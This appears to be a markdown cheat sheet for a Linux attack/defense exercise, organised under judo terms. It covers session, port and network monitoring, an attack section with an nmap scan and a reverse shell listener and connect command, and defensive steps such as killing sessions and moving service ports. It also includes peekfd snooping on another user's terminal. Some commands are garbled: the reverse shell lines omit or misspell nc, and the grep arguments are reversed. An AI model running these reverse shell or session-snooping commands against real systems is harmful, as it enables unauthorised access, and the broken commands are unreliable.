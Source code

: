 # Waza 技 (technique)

## Yomi Waza 読み技 (monitoring technique)

1. read the manual
   1. get documentation about a command
   ```bash
   man $COMMAND
   ```
   2. know services name and their ports 
   ```bash
   less /etc/services
   ```

2. sessions (who is doing what)
   1. <a href="who">who</a> 
   ```bash
   w
   ```
   2. observe session
   ```bash
   session=pts/0 #session to watch
   ps -fat #find pts/0 Ss in the list and look at the PID column
   peekfd -8cnd $PID 0 1 2
   ```

3. ports
   1. what port is doing what

   ```bash
   netstat -tulpn
   ```

   ```bash
   ss -tulpn
   ```

4. processes
   1. list processes
```bash
ps -aux
```
   2. watch activity
```bash
top
```
```bash
htop
```

5. filter & search
   1. browse

display content of a file
```bash
cat $FILENAME
```

browse file content then press 'q' to quit use '/' to search keyword
```bash
more $FILE1
```
```bash
less $FILE1
```

read each newline coming into the file then press 'q' to quit
```bash
tail -f $FILE1
```

   2. filter

catch lines in a file with a given keyword
```bash
grep $FILENAME $KEYWORD
```
   1. pipe chain

chain two commands give the result of the first command to the second one.
```bash
$COMMAND1 | $COMMAND2
```

6. events
   1. logs

```bash
tail -f /var/log/syslog
```
7. communications
   1. firewall Logging

record in syslog new connection incoming
```bash
iptables -A INPUT -p tcp -m state --state NEW -j LOG --log-prefix "INCOMING connection "
```
record in syslog new connection outgoing
```bash
iptables -A OUTPUT -p tcp -m state --state NEW -j LOG --log-prefix "OUTGOING connection "
```

   1. content listening
      1. for general listening of the network activity
      ```bash
      tcpdump -i any -nn -q
      ```
      2. to focus on specific network activity
      ```bash
      tcpdump -ttttnnvvSX -c$NUMBER_OF_PACKETS_TO_READ src $SOURCE_IP_ADDRESS and dst port $DESTINATION_PORT
      ```
   



## Tori Waza 取り技 (attack technique)

1. discovery
   1. network scan
   ```bash
   nmap $UKE_IP_ADRESS
   ```
2. Reverse shell
   1. wait for the reverse shell connection
   ```bash
   ns -lvnp 4444
   ```
   2. connect the reverse shell
   ```bash
   nohup TORI_IP 4444 -e /bin/bash
   ```



## Uke Waza</a> 受け技 (defense technique)

1. sessions
   1. kill session
   get tty with [who](yomi waza who) then
   ```bash
   pkill -9 -t $TTY
   ```
2. ports
   1. change ssh port
   ```bash
   echo "Port 2222" | sudo tee -a /etc/ssh/sshd_config && sudo systemctl restart ssh
   ```
   2. change telnet port
   ```bash
   echo -e "telnet\t4444/tcp" | sudo tee -a /etc/services && sudo systemctl restart xinetd
   ```
   3. change ftp port
   ```bash
   echo "0.0.0.0,2121" | sudo tee /etc/pure-ftpd/conf/Bind >/dev/null && sudo systemctl restart pure-ftpd
   ```
3. processes
4. communications